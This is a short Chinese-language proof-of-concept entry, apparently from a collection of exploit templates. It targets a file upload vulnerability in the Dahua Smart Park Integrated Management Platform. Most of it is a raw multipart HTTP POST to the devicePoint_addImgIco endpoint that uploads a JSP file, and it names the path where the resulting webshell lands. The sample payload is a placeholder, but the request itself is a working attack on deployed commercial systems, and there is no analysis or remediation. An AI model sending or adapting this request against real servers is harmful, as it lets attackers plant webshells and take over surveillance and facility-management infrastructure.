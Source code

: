 ﻿# 大华智慧园区综合管理平台文件上传漏洞2

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：webshell链接：
http://xx.xx.xx.xx/upload/emap/society_new/ico_res_20e3cb288f08_on.jsp

> 漏洞特征：

> 验证脚本：HTTP

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

> 响应代码特征：-1

> 响应内容特征：

> 上传文件定位：/upload/emap/society_new/ico_res_20e3cb288f08_on.jsp

> 验证文件来源：大华智慧园区综合管理平台文件上传漏洞2.poc
